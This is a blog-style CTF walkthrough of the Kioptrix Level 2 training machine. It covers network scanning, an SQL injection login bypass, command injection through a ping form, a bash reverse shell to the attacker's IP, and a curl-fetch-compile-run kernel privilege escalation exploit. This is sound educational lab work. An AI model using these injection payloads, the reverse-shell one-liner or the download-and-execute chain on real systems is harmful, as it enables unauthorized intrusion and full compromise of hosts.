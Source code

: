 ```yaml
---
layout: post
title: "Kioptrix 2 writeup"
subtitle: "~ Walkthrough of Kioptrix 2 machine ~"
date: 2017-10-04
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Intro
Hey guys, in this post I'll try and show you how to solve Level 2 Kioptrix machine. This is a first blog and there is heavy ongoing experimentation with Jekyll markup, so expect some aesthetical errors and uneven parts or padding.
Without further a do, let's start. 

# Scanning, enumeration and exploitation
Run netdiscover to find the IP of our needed machine:

```console
root@EdgeOfNight:~# netdiscover 

 Currently scanning: 192.168.45.0/16   |   Screen View: Unique Hosts           
                                                                               
 9 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 540               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1       [REDACTED]          2      120  Compal Broadband Networks, I
 192.168.0.54      [REDACTED]          2      120  AzureWave Technology Inc.   
 192.168.0.87      [REDACTED]          1      60  Kaonmedia CO., LTD.         
 192.168.0.115     [REDACTED]          1      60  PCS Systemtechnik GmbH      
 192.168.0.234     [REDACTED]          1      60  Apple, Inc.                 
 192.168.0.53      [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
 192.168.0.101     [REDACTED]          1      60  Hon Hai Precision Ind. Co.,L
```

By digging around a bit I've found out that Kioptrix has been assined an IP of **192.168.0.115** !

As always it's important to find as much information about our target as possible and therefore I decided to run an nmap Scan.

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.0.115
Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-03 21:26 BST
Nmap scan report for 192.168.0.115
Host is up (0.00020s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http       Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            915/udp  status
|_  100024  1            918/tcp  status
443/tcp  open  ssl/https?
|_ssl-date: 2017-10-04T00:27:31+00:00; +4h00m02s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
631/tcp  open  ipp        CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      MySQL (unauthorized)
MAC Address: 08:00:27:81:47:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

Host script results:
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m01s

TRACEROUTE
HOP RTT     ADDRESS
1   0.20 ms 192.168.0.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.00 seconds
```

We get hits on different ports such as 22 [SSH], 80 [HTTP], 111 [RPC bind], 3306 [MYSQL] and more.  Because our target is running an HTTP web server we put the IP in a browser which results in this page:

<img src="/img/blog/IMG_1797.jpg">

This seems like a custom, lazy-made login function. Normally I wouldn't try and break login pages & their authentication in the first stage of enumeration, but because of the cheap look, an attempt for [SQL injection](https://www.w3schools.com/sql/sql_injection.asp) won't hurt. And indeed, a simple `' or 1=1#` did the trick!  Login has been successfully bypassed and we are presented with yet another challenge!  

<img src="/img/blog/IMG_1798.JPG">

From enough completed challenges and CTFs I immediately recognized a possible code injection vulnerability. Let me explain. Our current webapp prompts us to enter a machine to ping. If you think about what's happening inside our target, a command like this is parsed: `ping Entered_IP`. Seems harmless, right? Well, no it is not! A character like "semicolon" (;) or "OR" can be used to append a terminator to the preset ping command which changes a query from `ping ENTERED_IP` to  `ping ENTERED_IP; malicious input`. This effectively allows for code execution which makes us able to enter any command we like into our designated machine. 

<img src="img/blog/IMG_1799.JPG">

An attempt to estabilish a reverse shell with netcat was made, but as it appears, our target doesn't  have it. Luckily, there was another trick up my sleeve - `; bash -i >& /dev/tcp/192.168.0.213/4444 0>&1`. This is just another way of telling a computer to connect back to you. Of course before doing this we need to ready our netcat listener. `nc -lvp 4444`

<img src="img/blog/IMG_1800.JPG">		
			 
`lvp - listen, verbose, port`

BOOM! 
If you are interested in doing more research in this topic I highly suggest this article: <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# Post Exploitation
Feels good once you get that shell, doesn't it? Non the less, we need to escalate our privileges and  pwn the server as a whole - not just as apache. Time to snoop around!

There are 2 users in the home directory (john and harold), however both of them have restriced home folders which we can not access. A search for uncommon misconfigurations such as writable passwd or shadow file yielded no result. After a while during my system enumeration I spotted that the kernel is pretty outdated. 
`uname -a` results in  `Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`

Last compiled in 2007? This possibly opens up a privilege escalation vulnerability. After the finding, google search or exploitdb can be used for locating a corresponding kernel exploit.  
File of interest: <https://www.exploit-db.com/exploits/9545/>. Usually it's a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. Always make sure there are no other options before trying kernel exploitation!

I decided to download the code onto my machine, host it on apache 2 webserver and make the victim download it via the previously gained shell. Here are the steps:

##### Our machine (where exploit.c is the file you downloaded):
```console
root@EdgeOfNight:~# mv /root/Downloads/privesc.c /var/www/html/ && /etc/init.d/apache2 start
[ ok ] Starting apache2 (via systemctl): apache2.service.
```
`mv - moves privesc.c file from Downloads to /var/www/html`

`/etc/init.d/apache2 start - starts apache web server on our machine which makes privesc.c file downloadable by accessing our IP address`

`&& - just executes the 2 commands after each other`


##### Kioptrix machine:
```console
cd /tmp && id && curl 192.168.0.213/exploit.c -o exploit.c 2> /dev/null && gcc exploit.c && ./a.out 
```

<img src="/img/blog/IMG_1801.JPG">

`cd /tmp - changes directory into tmp`

`id - prints user information before privilege escalation`

`curl IP/exploit.c - makes an HTTP request to our machine where /exploit.c is path to corresponding exploit, -o saves the output of the request, 2> is not needed - pipes the curl commands errors into "void"`

`gcc exploit.c - compiles our C code using GCC`

`./a.out - runs the compiled binary from GCC (every compiled file by this compiler has default output name of a.out)`

## <centre>Congratulations! The box has been rooted!</centre>

# Conclusion
A solid box with a lot of hidden knowledge for new people entering infosec community. There are always things to learn no matter how you many times you do them - same with this box. Personally I found this challenge quite easy, but enjoyed it non the less. My thanks goes to the creator for making such an awesome box.
-
Have any suggestions or feedback? Write it down below in the comments or send me a message on twitter!

~V3

